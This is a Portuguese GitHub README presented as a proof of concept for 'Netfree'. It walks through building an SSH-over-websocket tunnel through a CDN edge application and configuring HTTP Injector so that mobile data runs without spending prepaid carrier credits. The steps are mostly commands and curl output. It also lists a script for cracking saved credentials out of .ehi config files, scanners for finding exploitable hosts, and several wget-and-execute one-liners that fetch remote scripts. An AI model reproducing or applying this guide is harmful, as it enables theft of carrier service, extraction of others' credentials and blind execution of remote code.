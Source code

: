 # Netfree-proxy
POC de Netfree

Baseado no exploit original exposto no final de 2022 nos grupos telegram, segue o passo a passo de como reproduzir.
* Script Original: https://github.com/leitura/ws/blob/main/ws
* Autor: @OMentalista (telegram)

Step-by-step
============

1. Primeiramente precisamos de uma VM com IP publico na rede e acesso ssh sem firewall. Ex.
```
ssh root@142.93.9.181
```
(obs: tenha um usuario non-root para os testes.. Neste exemplo: user: nes / pass: ***)

2. Suba o proxy.py (código usado pelos Netfree)

3. Deixe o proxy rodando
```
nohup python proxy.py -p 81 &
```

4. Testando conexão local
```
curl http://142.93.9.181:81 -v
*   Trying 142.93.9.181:81...
* Connected to 142.93.9.181 (142.93.9.181) port 81 (#0)
> GET / HTTP/1.1
> Host: 142.93.9.181:81
> User-Agent: curl/7.77.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 101 Switching Protocols 
< Upgrade: websocket 
< Connection: Upgrade
< 
SSH-2.0-OpenSSH_7.4
```

5. Configurar um Edge application apontando para a origem 142.93.9.181:81 e um domain para testes
 
6. Teste feito em uma Edge Application com websocket ligado.
```
curl -v http://201.21.211.115 -H 'Host: xlm94s2zs8.map.azionedge.net' -H 'Connection: Upgrade' -H 'Upgrade: Websocket'
*   Trying 201.21.211.115:80...
* Connected to 201.21.211.115 (201.21.211.115) port 80 (#0)
> GET / HTTP/1.1
> Host: xlm94s2zs8.map.azionedge.net
> User-Agent: curl/7.77.0
> Accept: */*
> Connection: Upgrade
> Upgrade: Websocket
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 101 Switching Protocols 
< Date: Tue, 16 Aug 2022 13:48:08 GMT
< Connection: upgrade
< Upgrade: websocket
< 
SSH-2.0-OpenSSH_7.4
```

7. Teste da conf em uma Edge Application com websocket desligado.
```
curl -v http://xlm94s2zs8.map.azionedge.net -H 'Connection: Upgrade' -H 'Upgrade: Websocket'
# Não haverá o retorno do switching protocols
```

8. Plus - Create a hot domain to be used with this cname: 
```
dig websocket.httpbin.xyz
curl -v http://websocket.httpbin.xyz -H 'Connection: Upgrade' -H 'Upgrade: Websocket'
```

9. Em um Android Baixar o HTTP Injector na PlayStore

10. Configurar o Tunnel:
```
Tunnel Type: Secure Shell (SSH)
Connect From: HTTP Proxy
Options: Custom Payload
[SAVE]
```

12. Configurar o Payload:
```
GET / HTTP/1.1[crlf]Host: websocket.httpbin.xyz[clrf]Connection: Upgrade[clrf]Upgrade: websocket[clrf][clrf]
```

14. Configurar o Remote Proxy:
```
websocket.httpbin.xyz:80
```

16. Configurar o Settings/Secure Shell (SSH)
```
SSH Host: websocket.httpbin.xyz
SSH Port: 80
Username: nes
Password: ***
```
(obs - configurar uma conta de user qquer no seu servidor SSH que foi criada la no passo 1)


A partir daqui é possivel acessar a internet pelo tunel configurado sem que seus creditos pre-pagos sejam consumidos.
Mesmo zerando os creditos da Claro, foi possivel continuar navegando no youtube, playstore, e outros serviços mesmo não sendo HTTP ou zero-rating hosts.


Grupos no Telegram
==================

Busque por "Netfree", "HttpInjector", "HttpInjectorX9", etc.

Abaixo uma lista de ferramentas compiladas:

1. HTTPInjector 
* https://play.google.com/store/apps/details?id=com.evozi.injector&hl=pt_BR
* É um client VPN universal (SSH/Proxy/SSL Tunnel/DNS Tunnel/Shadowsocks/V2Ray/Xray/Hysteria/Wireguard)
* Salva as configurações em .ehi 
2. HTTPInjectorX9
* É um script em lua (x9.lua) usado para crackear o conteúdo de arquivos .ehi (inclusive user/pass salvos)
3. Subfinder
* https://github.com/projectdiscovery/subfinder
* subdomain discovery tool that returns valid subdomains for websites, using passive online sources. 
```
subfinder -d example.com -o exemplo.com.lst
```

4. Bug scanner do group @darktunnel_group (telegram)
* https://github.com/aztecrabbit/bugscanner-go
* Scan da lista gerada pelo subfinder
```
bugscanner-go scan direct -f exemplo.com.lst -o cf.lst
```
* scan CDN SSL:
```
bugscanner-go scan cdn-ssl --proxy-filename cf.lst --target ws.exemplo.com
```
* Scan Server Name Indication (SNI):
```
bugscanner-go scan sni -f exemplo.com.lst --threads 16 --timeout 8 --deep 3
```

5. Scripts do @OMentalista (telegram)
* SSHPLUS - https://github.com/leitura/SSHPLUS
```
apt update -y && apt upgrade -y && wget https://raw.githubusercontent.com/leitura/SSHPLUS/master/Plus && chmod 777 Plus && ./Plus
```
* SCRIPT SSL WS - https://github.com/leitura/ws
```
wget https://raw.githubusercontent.com/leitura/ws/main/ws && chmod +x ws && ./ws
```
* SCRIPT SENHA ROOT - https://github.com/leitura/senharoot
```
bash <(wget -qO- https://raw.githubusercontent.com/leitura/senharoot/main/senharoot.sh)
```
